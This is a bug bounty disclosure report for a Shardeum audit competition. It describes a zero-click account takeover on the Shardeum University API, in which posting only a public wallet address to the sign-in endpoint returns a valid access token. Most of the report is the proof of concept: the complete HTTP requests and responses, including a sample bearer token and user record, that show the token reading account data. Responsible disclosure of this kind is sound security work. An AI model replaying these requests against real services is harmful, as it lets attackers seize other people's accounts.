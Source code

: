 # #35447 \[W\&A-High] Zero Click Full Account Takeover

**Submitted on Sep 22nd 2024 at 22:14:01 UTC by @blocksmith0 for** [**Audit Comp | Shardeum: Ancillaries II**](https://immunefi.com/audit-competition/shardeum-ancillaries-ii-boost)

* **Report ID:** #35447
* **Report Type:** Websites and Applications
* **Report severity:** High
* **Target:** https://immunefi.com
* **Impacts:**
  * Changing sensitive details of other users (including modifying browser local storage) without already-connected wallet interaction and with up to one click of user interaction, such as: Email Password of the victim etc.

## Description

## Vulnerability Details

Found a zero click full account takeover on \`api.university.shardeum.org\` which enables any user to fully takeover other users account with zero interaction.

When you pass \`walletAddress\` to the following HTTP POST request it gives access token to that account you can use that access token to take over the account. Because wallet address are public and when someone use the wallet to sign in to \`university.shardeum.org\` by just knowing wallet address we can takeover full account or we can get wallet addresses from the explorers and check all the wallets to find the one wallet that was used to sign in to \`university.shardeum.org\`.

HTTP Request:

\`\`\` POST /api/auth/signin HTTP/1.1 Host: api.university.shardeum.org Connection: close Content-Length: 62 sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121" Accept: application/json, text/plain, _/_ Content-Type: application/json sec-ch-ua-mobile: ?0 User-Agent: Mozilla/5.0 (X11; Linux x86\_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 sec-ch-ua-platform: "Linux" Origin: https://165.232.189.24 Sec-Fetch-Site: cross-site Sec-Fetch-Mode: cors Sec-Fetch-Dest: empty Referer: https://165.232.189.24/ Accept-Encoding: gzip, deflate Accept-Language: en-US,en;q=0.9

{"walletAddress":"Victim Wallet Address"} \`\`\`

In response you will get all user information including access token.

\`\`\` HTTP/1.1 200 OK Server: nginx/1.24.0 (Ubuntu) Date: Sun, 22 Sep 2024 21:54:13 GMT Content-Type: application/json; charset=utf-8 Content-Length: 678 Connection: close X-Powered-By: Express Access-Control-Allow-Origin: \* Access-Control-Allow-Headers: x-access-token, Origin, Content-Type, Accept ETag: W/"2a6-aaAo1gqpkCEbZ5bZjkBVAmCmGoQ" Vary: Accept-Encoding

{"type":"not-verified","\_id":"66f08643f519db4c16f3ad23","username":"hacked","walletAddress":"0x17daeE6958a71F4854d6359E88013663F439B499","email":"victim@gmail.com","isVerified":false,"isBlocked":false,"displayName":"default","portfolio":"https://sample.com/link","shardId":"areer333","designation":"developer","roles":\[{"\_id":"6564d2c72c178bc331526b9e","name":"user"}],"projects":\[],"enrolledCourses":\[],"createdAt":"2024-09-22T21:04:03.306Z","updatedAt":"2024-09-22T21:12:21.393Z","\_\_v":1,"accessToken":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY2ZjA4NjQzZjUxOWRiNGMxNmYzYWQyMyIsImlhdCI6MTcyNzA0MjA1MywiZXhwIjoxNzI3MTI4NDUzfQ.6NZ6-pVvFe4xD5QueL-gkoPmTmg68N6kK3B7\_e7S1Sc"} \`\`\`

## Proof of Concept

## Proof of Concept

First find victim wallet address using the above technique get victim access token to check that the access token is valid use the following HTTP request to get user information using the access token that you retrieved.

First use the following request without access token and check that you get \`401 Unauthorized\` and then use the access token and user ID from the previous technique that I have discussed you will see that you get all the user information and also you can fully take over the account with user interaction.

HTTP Request without access token.

\`\`\` GET /api/auth/getUserData?userid=66f07c16f519db4c16f3a835 HTTP/1.1 Host: api.university.shardeum.org Connection: close Content-Length: 0 sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121" Accept: application/json, text/plain, _/_ Content-Type: application/json sec-ch-ua-mobile: ?0 Authorization: Bearer User-Agent: Mozilla/5.0 (X11; Linux x86\_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 sec-ch-ua-platform: "Linux" Origin: https://165.232.189.24 Sec-Fetch-Site: cross-site Sec-Fetch-Mode: cors Sec-Fetch-Dest: empty Referer: https://165.232.189.24/ Accept-Encoding: gzip, deflate Accept-Language: en-US,en;q=0.9 \`\`\`

The response is \`401 Unauthorized\`

HTTP request with the access token that we got from previous technique.

\`\`\` GET /api/auth/getUserData?userid=66f07c16f519db4c16f3a835 HTTP/1.1 Host: api.university.shardeum.org Connection: close Content-Length: 0 sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121" Accept: application/json, text/plain, _/_ Content-Type: application/json sec-ch-ua-mobile: ?0 Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY2ZjA4NjQzZjUxOWRiNGMxNmYzYWQyMyIsImlhdCI6MTcyNzA0MjA1MywiZXhwIjoxNzI3MTI4NDUzfQ.6NZ6-pVvFe4xD5QueL-gkoPmTmg68N6kK3B7\_e7S1Sc User-Agent: Mozilla/5.0 (X11; Linux x86\_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 sec-ch-ua-platform: "Linux" Origin: https://165.232.189.24 Sec-Fetch-Site: cross-site Sec-Fetch-Mode: cors Sec-Fetch-Dest: empty Referer: https://165.232.189.24/ Accept-Encoding: gzip, deflate Accept-Language: en-US,en;q=0.9 \`\`\`

Response is \`200 OK\` with user information meaning we fully takeover the account.

\`\`\` HTTP/1.1 200 OK Server: nginx/1.24.0 (Ubuntu) Date: Sun, 22 Sep 2024 22:05:11 GMT Content-Type: application/json; charset=utf-8 Content-Length: 487 Connection: close X-Powered-By: Express Access-Control-Allow-Origin: \* Access-Control-Allow-Headers: x-access-token, Origin, Content-Type, Accept ETag: W/"1e7-gCZlpAihmY6fwcut90ISYxhSuOw" Vary: Accept-Encoding

{"type":"user-data","\_id":"66f08643f519db4c16f3ad23","username":"hacked","walletAddress":"0x17daeE6958a71F4854d6359E88013663F439B499","email":"victim@gmail.com","isVerified":false,"isBlocked":false,"displayName":"default","portfolio":"https://sample.com/link","shardId":"areer333","designation":"developer","roles":\[{"\_id":"6564d2c72c178bc331526b9e","name":"user"}],"projects":\[],"enrolledCourses":\[],"createdAt":"2024-09-22T21:04:03.306Z","updatedAt":"2024-09-22T21:12:21.393Z","\_\_v":1} \`\`\`
